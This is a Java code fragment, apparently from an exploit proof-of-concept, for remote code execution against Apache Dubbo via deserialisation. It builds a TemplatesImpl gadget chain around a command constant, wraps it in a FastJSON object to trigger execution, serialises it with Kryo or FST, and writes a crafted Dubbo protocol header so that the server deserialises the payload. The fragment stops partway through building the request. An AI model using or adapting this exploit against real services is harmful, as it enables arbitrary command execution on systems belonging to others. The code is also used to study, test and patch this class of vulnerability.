 ```java
    //Exploit variant - comment to switch exploit variants
    public static String EXPLOIT_VARIANT = "Kryo";
    //public static String EXPLOIT_VARIANT = "FST";

    // Magic header from ExchangeCodec
    protected static final short MAGIC = (short) 0xdabb;
    protected static final byte MAGIC_HIGH = Bytes.short2bytes(MAGIC)[0];
    protected static final byte MAGIC_LOW = Bytes.short2bytes(MAGIC)[1];

    // Message flags from ExchangeCodec
    protected static final byte FLAG_REQUEST = (byte) 0x80;
    protected static final byte FLAG_TWOWAY = (byte) 0x40;

    public static void main(String[] args) throws Exception {
        Object templates = Utils.createTemplatesImpl(DUBBO_RCE_COMMAND);  // TemplatesImpl gadget chain

        // triggers Runtime.exec() on TemplatesImpl.newTransformer()
        JSONObject jo = new JSONObject();
        jo.put("oops",(Serializable)templates); // Vulnerable FastJSON wrapper
        Object gadgetChain = Utils.makeXStringToStringTrigger(jo); // toString() trigger

        // encode request data.
        ByteArrayOutputStream bos = new ByteArrayOutputStream();

        // Kryo exploit variant
        Serialization s;
        ObjectOutput objectOutput;
        switch(EXPLOIT_VARIANT) {
            case "FST":
                s = new FstSerialization();
                objectOutput = new FstObjectOutput(bos);
                break;
            case "Kryo":
            default:
                s = new KryoSerialization();
                objectOutput = new KryoObjectOutput(bos);
                break;
        }

        // 0xc2 is Hessian2 + two-way + Request serialization
        // Kryo | two-way | Request is 0xc8 on third byte
        // FST | two-way | Request is 0xc9 on third byte

        byte requestFlags =  (byte) (FLAG_REQUEST | s.getContentTypeId() | FLAG_TWOWAY);
        byte[] header = new byte[]{MAGIC_HIGH, MAGIC_LOW, requestFlags,
                0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0}; // Padding and 0 length LSBs
        bos.write(header);
        // Strings need only satisfy "readUTF" calls until "readObject" is reached, so garbage metadata works too
        /*
        objectOutput.writeUTF("notAversion");
        objectOutput.writeUTF("notAservice");
        objectOutput.writeUTF("notAserviceVersion");
        objectOutput.writeUTF("notAmethod");
        objectOutput.writeUTF("notAtype"); //*/

        // This section contains valid data writes
        RpcInvocation ri = new RpcInvocation();
        ri.setParameterTypes(new Class[] {Object.class, Method.class, Object.class});
        //ri.setParameterTypesDesc("Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;");
        ri.setArguments(new Object[] { "sayHello", new String[] {"org.apache.dubbo.demo.DemoService"}, new Object[] {"YOU"}});
```